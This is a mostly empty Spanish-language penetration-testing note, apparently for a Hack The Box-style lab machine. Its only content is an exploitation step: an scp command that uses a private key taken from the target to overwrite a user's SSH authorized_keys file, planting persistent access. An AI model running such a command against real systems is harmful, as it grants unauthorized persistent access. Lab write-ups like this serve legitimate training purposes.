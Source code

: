 
## DESCRIPTION



#### Mas información
* 


## EXPLOITATION

### OPTION 1: ENVIAR FICHEROS



```
sudo scp -O  -i home/max/.ssh/id_rsa /home/kali/pg/sorcerer/enumeration/home/max/.ssh/authorized_keys max@192.168.187.100:/home/max/.ssh/authorized_keys

```



## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 

